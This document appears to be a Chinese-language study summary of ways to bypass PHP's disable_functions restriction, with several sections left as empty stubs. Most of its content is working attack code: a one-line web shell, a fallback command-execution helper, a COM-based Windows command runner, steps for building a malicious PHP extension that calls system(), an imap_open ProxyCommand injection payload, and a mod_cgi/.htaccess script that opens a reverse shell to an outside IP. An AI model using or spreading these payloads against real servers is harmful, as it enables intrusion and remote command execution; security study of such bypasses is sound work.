






# PHP-disable_functions绕过学习总结


## 0x00 介绍

disable_functions是php.ini的核心配置选项之一，该指令只能在php.ini中设置。

> 本指令允许你基于[安全](https://www.php.net/manual/zh/security.php)原因禁止某些函数。接受逗号分隔的函数名列表作为参数。disable_functions 不受[安全模式](https://www.php.net/manual/zh/ini.sect.safe-mode.php#ini.safe-mode)的影响。



也就是说，当设置了disable_functions之后，该指令的值内所包含的函数将禁止使用，假如我们历经千辛万苦之后获得了shell，却发现没有权限执行命令，无疑是很郁闷的。

比如：






test.php

```
<?php
system($_GET['cmd']);
```



既然有限制，那么就有人想方设法绕过


## 0x01 绕过


### 方法一：寻找漏网之鱼

一般来说，php中可以直接执行系统命令的函数如下：

```
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,``(反单引号)
```

如果，过滤不全，就可以直接使用来执行命令。

```
function execute($cfe) { 
       $res = '';
       if ($cfe) {
              if(function_exists('system')) {
                     @ob_start();
                     @system($cfe);
                     $res = @ob_get_contents();
                     @ob_end_clean();
              } elseif(function_exists('passthru')) {
                     @ob_start();
                     @passthru($cfe);
                     $res = @ob_get_contents();
                     @ob_end_clean(); 
              } elseif(function_exists('shell_exec')) { 
                     $res = @shell_exec($cfe); 
              } elseif(function_exists('exec')) { 
                     @exec($cfe,$res);
                     $res = join("\n",$res); 
              } elseif(@is_resource($f = @popen($cfe,"r"))) {
                     $res = '';
                     while(!@feof($f)) {
                            $res .= @fread($f,1024);
                     }
                     @pclose($f);
              }
       } 
       return $res;
}
```


**passthru()**

功能描述：允许执行一个外部程序并回显输出，类似于 exec()。
危险等级：高

**exec()**

功能描述：允许执行一个外部程序（如 UNIX Shell 或 CMD 命令等）。
危险等级：高

**system()**

功能描述：允许执行一个外部程序并回显输出，类似于 passthru()。
危险等级：高

(windows 下的 `` 执行命令，用的是这个函数)

**chroot()**

功能描述：可改变当前 PHP 进程的工作根目录，仅当系统支持 CLI 模式
PHP 时才能工作，且该函数不适用于 Windows 系统。
危险等级：高

**chgrp()**

功能描述：改变文件或目录所属的用户组。
危险等级：高

**chown()**

功能描述：改变文件或目录的所有者。
危险等级：高

**shell_exec()**

功能描述：通过 Shell 执行命令，并将执行结果作为字符串返回。
危险等级：高

(Linux 下的 `` 用的是这个函数)

**proc_open()**

功能描述：执行一个命令并打开文件指针用于读取以及写入。
危险等级：高

**proc_get_status()**

功能描述：获取使用 proc_open() 所打开进程的信息。
危险等级：高

**ini_alter()**

功能描述：是 ini_set() 函数的一个别名函数，功能与 ini_set() 相同。
具体参见 ini_set()。
危险等级：高

**ini_set()**

功能描述：可用于修改、设置 PHP 环境配置参数。
危险等级：高

**ini_restore()**

功能描述：可用于恢复 PHP 环境配置参数到其初始值。
危险等级：高

**dl()**

功能描述：在 PHP 进行运行过程当中（而非启动时）加载一个 PHP 外部模块。
危险等级：高

**pfsockopen()**

功能描述：建立一个 Internet 或 UNIX 域的 socket 持久连接。
危险等级：高

**symlink()**

功能描述：在 UNIX 系统中建立一个符号链接。
危险等级：高

**popen()**

功能描述：可通过 popen() 的参数传递一条命令，并对 popen() 所打开的文件进行执行。
危险等级：高

**putenv()**

功能描述：用于在 PHP 运行时改变系统字符集环境。在低于 5.2.6 版本的 PHP 中，可利用该函数
修改系统字符集环境后，利用 sendmail 指令发送特殊参数执行系统 SHELL 命令。
危险等级：高

**phpinfo()**

功能描述：输出 PHP 环境信息以及相关的模块、WEB 环境等信息。
危险等级：中

**scandir()**

功能描述：列出指定路径中的文件和目录。
危险等级：中

**syslog()**

功能描述：可调用 UNIX 系统的系统层 syslog() 函数。
危险等级：中

**readlink()**

功能描述：返回符号连接指向的目标文件内容。
危险等级：中

**stream_socket_server()**

功能描述：建立一个 Internet 或 UNIX 服务器连接。
危险等级：中

**error_log()**

功能描述：将错误信息发送到指定位置（文件）。
安全备注：在某些版本的 PHP 中，可使用 error_log() 绕过 PHP safe mode，
执行任意命令。
危险等级：低


### 方法二：LD_PRELOAD

详见LD_PRELOAD


### 方法三：Windows下通过COM组件绕过

bypass_with_com.php

```
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell');   // 生成一个COM对象
$exec = $wsh->exec('cmd.exe /c '.$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```


```
http://localhost/disable_functions/testcom.php?a=dir
```




Shell.Application也可以实现同样的效果

彻底的解决方案是 直接删除System32目录下wshom.ocx文件


### 方法四：利用扩展绕过

Linux下可通过编译拓展库进行绕过

1. 首先得知PHP服务器php版本，下载个相同或相近版本的php源码包

```
tar zxvf php-5.3.10.tar.gz  //解压缩 
cd php-5.3.10/ext      
./ext_skel --extname=dl  //生成名为dl的拓展库 
cd dl 
vi config.m4
```

删除以下三行内容前的dnl并保存

```
PHP_ARG_WITH(dl, for dl support,
Make sure that the comment is aligned:
[  --with-dl             Include dl support])
```

在

```
if (zend_parse_parameters(ZEND_NUM_ARGS() TSRMLS_CC, "s", &amp;arg, &amp;arg_len) == FAILURE) {
	return;
}
```

这一行下添加

```
system(arg);
```


```
whereis php-config  //找出php-config的路径
./configure --whith-php-config=【php-config的路径】
make
make install
```


```
[root@TENCENT64 ~/php-5.3.10/ext/dl]# make install
Installing shared extensions:     /usr/local/lib/php/extensions/no-debug-non-zts-20121212/
```

查看php.ini的extension_dir 项，将以下so文件拷贝到extension_dir目录下

```
/usr/local/lib/php/extensions/no-debug-non-zts-20121212/dl.so
```

若extension_dir目录无写权限则可写入任意目录用../../来绕过并调用。

```
<?php
dl("dl.so");  //dl.so在extension_dir目录，如不在则用../../来实现调用
confirm_dl_compiled("$_GET[a]>1.txt");
?>
```

查看1.txt即可看到命令执行结果


将dl函数加入禁用


### 方法五：imap_open

```php
<?php
# CRLF (c)
# echo '1234567890'>/tmp/test0001

$server = "x -oProxyCommand=echotZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=|base64t-d|sh}";

imap_open('{'.$server.':143/imap}INBOX', '', '') or die("nnError: ".imap_last_error());
```

PHP函数库（core）中并不包含`imap_open()`函数，该函数是`imapd`的一个封装函数，由华盛顿大学的研究人员开发。只有当我们安装`IMAP` PHP扩展后，PHP才会包含`imap_open()`函数。

```php
imap_open ( string $mailbox , string $username , string $password [, int $options = 0 [, int $n_retries = 0 [, array $params = NULL ]]] )
```

`mailbox`参数的值由服务器名和服务器上的mailbox文件路径所组成，`INBOX`代表的是当前用户的个人邮箱。比如，我们可以通过如下方式来设置`mailbox`参数：

```php
$mbox = imap_open ("{localhost:993/PROTOCOL/FLAG}INBOX", "user_id", "password");
```

在括号内的字符串中，我们可以看到服务器名称（或者IP地址）、端口号以及协议名称。用户可以在协议名后设置标志（第3个参数）。



除非我们禁用了[`enable_insecure_rsh`](https://php.net/manual/en/imap.configuration.php#ini.imap.enable-insecure-rsh)选项，否则不要将用户数据直接传输到`mailbox`参数中。

现在有两种基于Unix的IMAP服务器被人们广泛使用，一种为华盛顿大学开发的`imapd`，另一种为Cyrus开发的IMAP服务器。

Cyrus会将用户邮件存储到内置数据库中，只有通过IMAP协议才能访问Cyrus。因此，当使用Cyrus时，已安装IMAP的Unix系统上的用户账户与IMAP账户之间并没有任何关联。

另一方面，`imapd`会将邮箱存储到文件中，而这些文件由Unix系统中邮件用户所有，如`/var/spool/mail`，因此`imapd`对应的用户账户以及访问权限与Unix服务器直接相关。如果邮件存放在我们具备访问权限的`spool`文件中，我们可以通过SSH方式登录系统，验证我们对这些文件的访问权限。

当能够使用SSH时，整个过程并不需要建立`IMAP`连接。`imap_open`函数首先会建立SSH连接，如果认证通过，则会在没有`IMAP`连接的情况下继续执行，这就是所谓的`IMAP`预认证模式。基于这一点，我们才会看到前面提到的关于`mailbox`参数的警告信息。在设置`SSH`连接时，`mailbox`参数的值会以参数形式传递给SSH命令。

在安全SSH协议被广泛使用之前，还有一个名为`rsh`的协议。然而默认情况下这种协议非常不安全，没有使用加密技术，因此不应当在本地网络环境外使用（甚至也不要在本地网络环境中使用）。`imap.enable_insecure_rsh`配置选项可以用来激活预认证模式中的`rsh`及`ssh`协议。

**-oProxyCommand参数**

`SSH`命令中用到了许多命令，其中我们可以使用`-o`参数来设置连接期间可用的各种选项。在建立SSH连接之前，我们可以设置`ProxyCommand`参数，如下所示：

```bash
ssh -oProxyCommand="touch tmp.txt" localhost
```

当我们执行这条命令时，可以发现即便我们没有建立与`localhost`的SSH连接，也会创建`tmp.txt`文件。

根据前面的分析，即使当前系统禁用了`system`、`passthru`等命令，如果存在RFI或者LFI漏洞，目标系统还是有命令执行风险。


### 方法六：ImageMagick 漏洞绕过


### 方法七：Ghostscript绕过


### 方法八：Apache+mod_cgi+.htaccess


mod_cgi.php

```
<?php
$cmd = "nc -c '/bin/bash' 10.11.12.13 8888"; //command to be executed
$shellfile = "#!/bin/bash\n"; //using a shellscript
$shellfile .= "echo -ne \"Content-Type: text/html\\n\\n\"\n"; //header is needed, otherwise a 500 error is thrown when there is output
$shellfile .= "$cmd"; //executing $cmd
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
    echo "$text: " . ($condition ? $yes : $no) . "<br>\n";
}
if (!isset($_GET['checked']))
{
    @file_put_contents('.htaccess', "\nSetEnv HTACCESS on", FILE_APPEND); //Append it to a .htaccess file to see whether .htaccess is allowed
    header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true'); //execute the script again to see if the htaccess test worked
}
else
{
    $modcgi = in_array('mod_cgi', apache_get_modules()); // mod_cgi enabled?
    $writable = is_writable('.'); //current dir writable?
    $htaccess = !empty($_SERVER['HTACCESS']); //htaccess enabled?
        checkEnabled("Mod-Cgi enabled",$modcgi,"Yes","No");
        checkEnabled("Is writable",$writable,"Yes","No");
        checkEnabled("htaccess working",$htaccess,"Yes","No");
    if(!($modcgi && $writable && $htaccess))
    {
        echo "Error. All of the above must be true for the script to work!"; //abort if not
    }
    else
    {
        checkEnabled("Backing up .htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded! Saved in .htaccess.bak","Failed!"); //make a backup, cause you never know.
        checkEnabled("Write .htaccess file",file_put_contents('.htaccess',"Options +ExecCGI\nAddHandler cgi-script .dizzle"),"Succeeded!","Failed!"); //.dizzle is a nice extension
        checkEnabled("Write shell file",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!"); //write the file
        checkEnabled("Chmod 777",chmod("shell.dizzle",0777),"Succeeded!","Failed!"); //rwx
        echo "Executing the script now. Check your listener "; //call the script
    }
}
?>
```

直接把该php文件上传到web目录下，里面执行的是反弹shell的命令，我们开启监听服务器的指定端口，然后尝试访问该文件即可


## 0x03 参考链接

https://www.cnblogs.com/wfzWebSecuity/p/11213732.html

[https://www.k0rz3n.com/2019/02/12/PHP%20中可以利用的危险的函数/](https://www.k0rz3n.com/2019/02/12/PHP 中可以利用的危险的函数/)

https://lab.wallarm.com/rce-in-php-or-how-to-bypass-disable-functions-in-php-installations-6ccdbf4f52bb

https://www.tr0y.wang/2018/04/18/PHPDisalbedfunc/index.html

http://47.98.146.200/index.php/archives/47/

http://47.98.146.200/index.php/archives/44/

http://47.98.146.200/index.php/archives/45/